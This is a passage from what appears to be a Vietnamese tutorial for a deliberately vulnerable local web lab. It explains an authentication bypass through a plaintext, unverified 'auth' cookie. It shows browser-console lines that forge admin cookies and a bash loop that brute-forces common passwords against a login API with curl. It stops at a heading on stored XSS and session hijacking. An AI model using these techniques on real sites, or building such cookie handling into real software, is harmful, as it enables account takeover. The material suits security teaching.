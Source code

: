 ### Tại Sao Có Lỗ Hổng?

1. **Plaintext Storage**: Lưu username:password rõ ràng
2. **No Verification**: Không verify session với database
3. **httpOnly: false**: Có thể sửa bằng JavaScript
4. **No Encryption**: Không mã hóa cookie

### Cách Khai Thác

**Input**: Cookie = `admin:admin123`

**Server xử lý**:

```javascript
const [username] = "admin:admin123".split(":");
// username = "admin"
// Server tin là đã đăng nhập với admin!
```

**Kết quả**: Bypass authentication thành công!

## 🧪 Các Payload Khác

### Đăng Nhập Với Bất Kỳ Tài Khoản Nào

```javascript
// Trong Console
document.cookie = "auth=user1:password1; path=/";
document.cookie = "auth=user2:password2; path=/";
document.cookie = "auth=admin:admin123; path=/";
```

### Brute Force Tìm Tài Khoản Admin

```bash
# Thử các username phổ biến
for user in admin root administrator; do
  for pass in admin admin123 password 123456; do
    curl -s -X POST http://localhost:3000/api/login \
      -H "Content-Type: application/json" \
      -d "{\"username\":\"$user\",\"password\":\"$pass\"}" | grep success
  done
done
```

### Giả Mạo Cookie Bất Kỳ

```javascript
// Không cần biết password thật!
document.cookie = "auth=admin:fakepassword123; path=/";
// Vẫn sẽ hiển thị username là "admin"
```

## 🎯 Kỹ Thuật Nâng Cao: Stored XSS + Session Hijacking
